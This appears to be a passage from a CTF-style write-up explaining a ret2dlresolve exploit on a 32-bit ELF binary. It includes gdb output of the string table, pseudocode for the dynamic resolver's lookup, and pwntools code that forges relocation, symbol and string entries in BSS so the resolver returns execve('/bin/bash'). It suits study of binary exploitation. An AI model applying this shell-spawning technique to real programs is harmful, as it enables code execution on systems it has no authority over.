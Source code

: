 There are a couple of fields here but the main one that we are interested in is st_name. Its the offset into the STRTAB.

The STRTAB is not a struct but rather a bunch of strings that are function names
```bash
gef➤  x/13s 0x804826c
0x804826c:      ""
0x804826d:      "libc.so.6"
0x8048277:      "_IO_stdin_used"
0x8048286:      "strncmp"
0x804828e:      "strlen"
0x8048295:      "memset"
0x804829c:      "read"
0x80482a1:      "stdout"
0x80482a8:      "setvbuf"
0x80482b0:      "__libc_start_main"
0x80482c2:      "GLIBC_2.0"
0x80482cc:      "__gmon_start__"
0x80482db:      ""
```

So here's my TL;Dr on how to call dl_resolve_runtime
```python
push jmp_offset 
dl_runtime_resolve()
jmp_offset + jumprel -(ONE ENTRY) == Elf32_Rel *reloc_table
    *reloc_table + 0 = GOT addr
    *reloc_table + 4 = r_info 
        ELF32_R_SYM  == r_info >>8 
        ELF32_R_TYPE == r_info & 0xff (7 for GOT)

func's symtab == SYMTAB + ELF32_R_SYM * 0x10

name = STRTAB + func's symtab[First entry]
_dl_lookup_symbol_x(name)
```

So when we call dl_resolve we just need to push the jmp_offset and construct a fake symtab, jmptab and strtab. One thing to note is that the SYMTAB Offet must be aligned, just place the structures and check in gdb.

In this exploit the fake_table is created in the BSS and far from our fake stack to avoid collisions. In later exploits this changes to minimize reads. 
```python 
fake_table = exe.bss() + 0x23c 

jmprel = 0x08048320
symtab  = 0x080481cc
strtab  = 0x0804826c

# Placeholders to calc length
fake_jmp = p32(0)  + p32(0)
fake_sym = p32(0) * 4

jmp_offset = fake_table - jmprel
sym_offset = (fake_table +len(fake_jmp) - symtab) // 0x10
assert sym_offset == (fake_table +len(fake_jmp) - symtab) / 0x10
str_offset = fake_table + len(fake_jmp) + len(fake_sym) - strtab

r_info =  (sym_offset << 8)  | 7 

# Address to overwrite, does not matter
fake_jmp = p32(exe.got.memset)  + p32(r_info)
fake_sym = p32(str_offset) + p32(0) + p32(0) +p32(0)
fake_str = b"execve\x00\x00/bin/bash"

```